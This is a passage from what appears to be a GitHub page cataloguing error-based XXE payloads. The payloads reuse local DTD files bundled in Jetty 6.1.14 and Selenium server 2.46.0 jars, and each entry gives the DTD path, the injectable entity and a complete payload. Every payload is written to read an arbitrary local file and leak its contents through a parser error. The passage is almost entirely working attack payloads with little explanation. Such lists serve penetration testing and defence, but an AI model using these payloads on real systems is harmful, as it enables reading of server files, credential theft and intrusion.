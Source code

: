 ```
    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/mortbay/jetty/jetty/6.1.14/jetty-6.1.14.jar!/org/mortbay/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/mortbay/jetty/jetty/6.1.14/jetty-6.1.14.jar!/org/mortbay/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```

 --- 

**DTD File:** `[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_6_0.dtd`

**Injectable entity:** `%CONFIG`

**XXE Payload:**
```
<!DOCTYPE message [
    <!ENTITY % local_dtd SYSTEM "file://[HOME_DIR]/.m2/repository/org/seleniumhq/selenium/selenium-server-standalone/2.46.0/selenium-server-standalone-2.46.0.jar!/org/seleniumhq/jetty7/xml/configure_6_0.dtd">

    <!ENTITY % CONFIG 'aaa)>
        <!ENTITY &#x25; file SYSTEM "file:///YOUR_FILE">
        <!ENTITY &#x25; eval "<!ENTITY &#x26;#x25; error SYSTEM &#x27;file:///abcxyz/&#x25;file;&#x27;>">
        &#x25;eval;
        &#x25;error;
        <!ELEMENT aa (bb'>

    %local_dtd;
]>
<message></message>
```
